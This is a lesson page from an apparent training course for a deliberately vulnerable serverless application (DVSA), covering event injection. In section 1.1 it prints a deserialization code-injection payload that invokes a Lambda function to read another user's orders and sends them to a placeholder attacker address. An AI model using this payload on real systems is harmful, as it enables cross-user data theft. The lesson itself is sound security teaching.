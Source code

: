 # LESSON #1: Event Injection

## (1.1) Code Injection via API Gateway
The application sends all request to an API GW (*`https://{string}.execute-api.{region}.amazonaws.com/{stage}/order`*). 
All requests end up being handled by a Lambda function, which invokes another Lambda function based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.

`$$ND_FUNC$$_function (){}()`

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```

Where the *`12312312-1233-1233-1233-123123123123`* is the user-id of the user we want to steal the data from, and *`<ATTACKER_REMOTE_ADDRESS>`* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

As a result, we now have the user orders:

![alt ngrok](https://i.imgur.com/CAcywDz.png)

The above example is the least of problems you can cause with such an attack. Notice that there are also admin functions :)


- - - 
## (1.2) Command Injection via S3 bucket
Event injections are not all about API calls and in serverless applications the source of the injection could be an: email (file, subject, etc.), an MQTT pub/sub, or any other cloud-resource event.

In this case, the DVSA is vulnerable to Command Injection via file name. The file is processed when uploaded to an S3 bucket. Since the bucket is configured insecurely, we can exploit it. 

To learn about this exploit, visit [Lesson #4: Insecure Cloud Configuration](../LESSONS/LESSON_04.md).

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

